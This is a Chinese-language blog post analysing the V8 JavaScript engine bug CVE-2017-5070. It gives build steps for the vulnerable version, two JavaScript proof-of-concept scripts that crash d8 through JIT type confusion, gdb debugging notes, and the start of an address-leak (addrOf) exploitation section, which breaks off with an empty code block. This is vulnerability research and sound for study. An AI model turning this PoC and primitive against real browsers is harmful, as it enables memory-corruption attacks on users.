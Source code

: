 ```yaml
---
layout:     post
title:      "V8引擎CVE-2017-5070漏洞分析（工事中）"
subtitle:   ""
date:       2019-08-02 10:30:00
author:     "GToad"
header-img: "img/android-five.png"
catalog: true
tags:
    - chrome
    - v8
    - exploit
    - cve
    - browser
---
```


> 本文为本博客V8系列第三篇。

## 漏洞基本信息

[漏洞信息页面](https://bugs.chromium.org/p/chromium/issues/detail?id=722756)
[漏洞修复代码](https://chromium.googlesource.com/v8/v8.git/+/e33fd30777f99a0d6e16b16d096a2663b1031457)

根据漏洞基本信息可准备分析环境，先切换至漏洞修复前版本。
```
git checkout 9a493631005539cdabb7366352e8dd8188141a80
gclient sync
```

对源码进行编译。
```
tools/dev/v8gen.py x64.debug
ninja -C out.gn/x64.debug d8
```

## PoC

以下代码执行后V8引擎会直接崩溃。

```javascript
var array = [[{}], [1.1]];

function transition() {
  for(var i = 0; i < array.length; i++){
    var arr = array[i];
    arr[0] = {};
  }
}

var double_arr2 = [1.1,2.2];

var flag = 0;
function swap() {
  try {} catch(e) {}  // Prevent Crankshaft from inlining this.
  if (flag == 1) {
    array[1] = double_arr2;
  }
}

var expected = 6.176516726456e-312;
function f(){
  swap();
  double_arr2[0] = 1;
  transition();
  double_arr2[1] = expected;
}

// %OptimizeFunctionOnNextCall(f);
for(var i = 0; i < 0x10000; i++) {
  f();
}
flag = 1;
f();
assertEquals(expected, double_arr2[1]);
```

![]()

从PoC来看，应该是f()、swap()和transition()三个函数在0x10000次循环执行后产生了Bug。毫无疑问，又是一个V8在对函数进行JIT优化后由于去除“冗余”类型检查而产生的问题。

## 漏洞成因

#### 调试分析

本漏洞的PoC在调试时可能存在一些问题，直接按照之前文章中的方法对PoC进行调试时可能出现数据无法正常读出的情况，因此，需要使用GDB的attach功能进行多进程间的调试。方法如下：
1. 在一个terminal中运行测试脚本：`gdb d8 --allow-natives-syntax ./test.js`，脚本中原本用于下断点的`%SystemBreak()`全部替换成`readline()`，这样脚本会停在`readline()`这里等用户输入并回车。
2. 在另一个terminal里用`ps -uf`命令查看步骤1中的进程号，然后用`sudo gdb d8`，进入后用attach功能指定目标进程号来调试这个进程，attach上以后记得先用`stop`命令让进程暂停下来。

此外，这次编译出来的d8版本似乎并不支持job命令，应该是debug_print_object相关函数没有导出，可以修改编译参数来解决。不过问题不大，直接看raw数据也行，不过对于函数的JIT机器码查看时会比较麻烦，不会像job指令那样直接给出其中的汇编代码。不过可以从属性值中找到机器码的地址，然后使用GDB的`disassemble`命令进行查看。

#### 结果分析
本漏洞的原理为近期JS引擎漏洞中最复杂的一个，先看两个版本POC,第一个是网上的，代码在下方；第二个是原作者[大宝]()的，上面已经给出了。可能我们编译后的d8运行第一个会效果明显一些，在倒数第二行报错，即对double_arr2的解析会报错。

```javascript
var array = [[{}], [1.1]];
var double_arr2 = [1.1,2.2];
function transition() {
  for(var i = 0; i < array.length; i++){
    var arr = array[i];
    arr[0] = {};
  }

}

var flag = 0;
function swap() {
  try {} catch(e) {}  // Prevent Crankshaft from inlining this.
  if (flag == 1) {
    array[1] = double_arr2;
  }
}
var expected = 6.176516726456e-312;
function f(){
  Math.sin(1);
  swap();  
  double_arr2[0] = 1;
  transition(); 
  double_arr2[1] = expected; 
  
}
%DebugPrint(double_arr2);
f();
%OptimizeFunctionOnNextCall(f);
flag = 1;
f();

print ("111");
print (expected === double_arr2[1]);
print ("222")
```

那么仔细看一下本漏洞的大致原理是什么呢？关键在于transition和swap这两个函数。

swap函数不仅仅是需要JIT优化，还要防止自己因为过短而被inline进f()。

transition这个函数看似没有对我们的array和double_arr2进行任何改变，仅仅只修改了局部变量arr。但是，这只是代码表面现象，实际上v8会对array中的两个元素进行优化调整。并且这个优化调整还会在flag=1时在swap中涉及到double_arr。

最后由于执行次数太多，swap和transition会进行JIT优化并去除一些类型检查。最终的效果就是double_arr2在访问时会直接把自己的元素上保存的数据当作double值给直接返回出来，而不是正常情况下把它们作为double对象的指针去寻找目标内存中下一个的数据作为double来返回。

因此，这个漏洞最后的表现为：double_arr2直接把自己元素的指针当作double来返回了。

## 漏洞利用

#### 泄露地址

由于double_arr2开始直接把自己元素的指针当作double来返回了，所以在f()里直接对double_arr2进行object赋值，这样访问double_arr后就能直接得到object的地址了。于是这就是个任意地址读的原语addrOf（object），这里并没有暴露出很明显的fakeObject原语。

```javascript

```

